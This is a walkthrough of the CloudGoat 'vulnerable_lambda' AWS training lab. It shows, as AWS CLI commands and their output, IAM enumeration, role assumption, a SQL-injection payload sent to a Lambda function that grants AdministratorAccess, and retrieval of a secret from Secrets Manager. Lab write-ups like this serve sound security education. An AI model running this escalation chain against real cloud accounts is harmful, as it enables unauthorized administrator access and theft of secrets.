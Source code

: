 # Vulnerable Lambda 
In this scenario, a lambda function will be exploited to escalate privileges and search for secrets.

## Installation
```./cloudgoat.py create vulnerable_lambda
```
## Enumerate Biblo
1. Assume the biblo user's role
```aws configure --profile biblo
<Add access key, secret access key into the fields>
aws --profile biblo sts get-caller-identity -> Get user name
```
2. Get all the permissions associated with biblo
```
aws iam list-user-policies --user-name <user name> --profile biblo -> get policy name
aws iam get-user-policy --user-name <user name> --policy-name <policy name> --profile biblo

POLICYDOCUMENT  2012-10-17
STATEMENT       sts:AssumeRole  Allow   arn:aws:iam::<account id>:role/cg-lambda-invoker*          
STATEMENT       ['iam:Get*', 'iam:List*', 'iam:SimulateCustomPolicy', 'iam:SimulatePrincipalPolicy']       Allow   *  
```
We can see that the the policy allows us to list roles and assume the lambda role

3. To list roles
```
aws iam list-roles --profile biblo >> roles.txt
```
In roles.txt, we search for the role name that begins with cg-lambda-invoker
4. Identify the associated permissions with the role
```
aws iam list-role-policies --role-name <role name> --profile biblo
aws iam get-role-policy --role-name <role name> --policy-name <policy name> --profile biblo
POLICYDOCUMENT  2012-10-17
STATEMENT       Allow   ['<lambda function arn>', '<2 lambda function arn>']
ACTION  lambda:ListFunctionEventInvokeConfigs
ACTION  lambda:InvokeFunction
ACTION  lambda:ListTags
ACTION  lambda:GetFunction
ACTION  lambda:GetPolicy
STATEMENT       Allow   *
ACTION  lambda:ListFunctions
ACTION  iam:Get*
ACTION  iam:List*
ACTION  iam:SimulateCustomPolicy
ACTION  iam:SimulatePrincipalPolicy
```
We can see that we can get the source function and list functions.

4. Assume the lambda role
```
aws sts assume-role --role-arn <lambda role> --role-session-name biblo --profile biblo --output json
```
5. Add the profile
```
nano ~/.aws/credentials
```
Add the following lines
```
[lambda-biblo]
aws_access_key_id = <access key>
aws_secret_access_key = <secret access key>
aws_session_token = <session token>
```
## Lambda Source Code
1. List lambdas and identify target lambda 
```
aws lambda list-functions --profile lambda-biblo
...
<target lambda function>
"Description": "This function will apply a managed policy to the user of your choice, so long as the database says that it's okay..."
...
```
We then see that the exploit could be database
2. Examine the source code
```
aws lambda get-function --function-name <function name> --profile lambda-biblo
...
CODE    https://prod-04-20xxxx...
...
```
Paste the url into the browser to download the code. We can then see that the code validates our hypothesis above. We can add the policy administrator access to our user as it is in the approved list of policies.
3. Invoke the function with attaching the policies
```
aws --profile lambda-biblo lambda invoke --function-name <function name> --cli-binary-format raw-in-base64-out --payload '{"policy_names":["AdministratorAccess'"'"' --"], "user_name":"<biblo user name>"}' out.txt
cat out.txt -> Check for no errors
```
## Secrets Manager
1. List Secrets
```
aws secretsmanager list-secrets --region us-east-1 --profile biblo --output json
... 
"Name": "vulnerable_lambda_xx... -> id of secret we want
...
```
2. Get the secret 
```
aws secretsmanager get-secret-value --region us-east-1 --secret-id <secret id> --profile biblo --output json
...
"SecretString": "cg-secret-846237-284529" -> Flag!
...
```

# References 
* Challenge: https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/vulnerable_lambda/README.md
